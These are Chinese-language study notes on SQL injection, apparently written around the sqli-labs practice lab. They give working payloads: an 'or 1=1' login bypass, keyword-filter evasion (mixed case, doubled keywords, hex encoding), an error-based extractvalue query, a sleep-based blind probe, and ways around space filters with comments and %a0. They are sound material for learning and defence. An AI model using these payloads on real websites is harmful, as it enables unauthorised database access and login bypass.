```select name,pass from tbAdmin where name='admin' or 1=1#' and pass='123456' ```
1）连接作用：比如

http://www.xxx.com/Show.asp?id=77&nameid=2905210001&page=1

2）清除缓存：比如

http://www.xxxxx.com/index.html

http://www.xxxxx.com/index.html?test123123

两个url打开的页面一样，但是后面这个有问号，说明不调用缓存的内容，而认为是一个新
地址，重新读取。

 	&

不同参数的间隔符

所以，**要对 && 字符，进行 url 编码**,比如

**1' %26%26 1=1 --+**

php 一般通过如下函数获取get参数，此时 $id 已对 url 解码 将 **%26%26** 还原为 **&&**

	$id=$_GET['id'];


大小写：Or、oR

重复：oorr、anandd

符号：&&、||

各种编码：0x.....、unicode

?id=1' oorr extractvalue(1,concat('~',database()))--+


	if (mid((select schema_name from information_schema.schemata limit 0,1),1,1)='i',sleep(1),0)

如果or被过滤，还应注意，表名是否含有被屏蔽的关键字，比如 infoorrmation_schema


#### 过滤空格

1. ```/**/```

2. ```/*%aa*/```    中文字符配合注释符bypass  通过union+“特殊字符”+select拼出一个新字符串，让正则认为这是个类似unionxxooselect这种，而不是union select 。 这样就能bypass检测

eg  ```union/*中文字符*/select```   还要保证这种中文字符不能构造一个汉字

过滤sql注入的正则：

	$id= preg_replace('/union\s+select/i',"", $id);

因为%a0的特性，在sql语句过滤的正则匹配时，匹配到它时是识别为中文字符的，所以不会被过滤掉，但是在进入SQL语句后，Mysql是不认中文字符的，所以直接当作空格处理，就这样，我们便达成了Bypass的目的，成功绕过空格+注释的过滤

如26关
![](Less-26.jpg)

[sql绕空格](https://lyiang.wordpress.com/2015/05/31/sql%E6%B3%A8%E5%85%A5%EF%BC%9A%E7%BB%95%E8%BF%87%E7%A9%BA%E6%A0%BC%E6%B3%A8%E5%85%A5/)
```